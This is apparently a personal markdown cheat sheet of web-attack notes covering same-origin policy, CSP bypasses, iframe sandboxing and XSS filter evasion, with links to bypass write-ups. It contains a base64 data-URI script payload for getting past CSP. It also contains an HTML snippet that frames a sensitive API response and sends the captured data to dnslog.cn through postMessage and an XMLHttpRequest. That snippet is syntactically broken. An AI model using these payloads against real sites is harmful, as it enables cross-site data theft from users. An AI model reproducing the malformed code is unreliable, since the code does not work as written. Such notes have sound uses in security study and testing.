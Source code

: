 # Striction
## SOP
  __Same-Origin-Policy__



## CSP
   __Content-Security-Policy__, is a mechanism to define which resources can be fetched out or executed by a web page. In other words, it can be understood as a policy that decides which scripts, images, iframes can be called or executed on a particular page from different locations. Content Security Policy is implemented via response headers or meta elements of the HTML page. From there, it’s browser’s call to follow that policy and actively block violations as they are detected.
- [Bypass of CSP](https://csplite.com/csp320/)
- [content-security-policy-csp-bypass-techniques](https://bhavesh-thakur.medium.com/content-security-policy-csp-bypass-techniques-e3fa475bfe5d)
```
<script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>
```
- [bypassing-csp-with-policy-injection](https://portswigger.net/research/bypassing-csp-with-policy-injection)
- Data protocol allowed: xss by iframe, combining postMessage to steal info
```html
<html>
<body>
<iframe id='attack' src="http://get_method_api_response_contains_sensitive_info/api"></iframe>
<script type="text/javascript">

var frame = document.getElementById("attack");
frame.addEventListener("load", function(){
  setTimeout(sendInfo,600)}
  )
 
function getInfo{
var payload = btoa(<script>                     #data protocol
    window.addEventListener(
     function(event)
       {xhr = new XMLHttpRequest();
        xhr.open("GET","http://dnslog.cn?message="+ event.data);
        xhr.send(null)}
     )
}     

function sendInfo{
 frames[0].postMessage("")
}
</script>
</body>
</html>
```
- script: self : combine the function of file upload
- [ClickJacking](https://resources.infosecinstitute.com/topic/bypassing-same-origin-policy-part-3-clickjacking-cursorjacking-filejacking/)


## iframe
- [sandbox](https://www.runoob.com/tags/att-iframe-sandbox.html)
- 

# Filter
- keyword
- characteristic
  - [iframe srcdoc](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/xss-cross-site-scripting/iframes-in-xss-and-csp.md#iframes-in-xss)
  - /xxx/.source
- 

## Referer
- [XSS绕过经验总结](https://blog.csdn.net/weixin_47168538/article/details/107164233)
- 
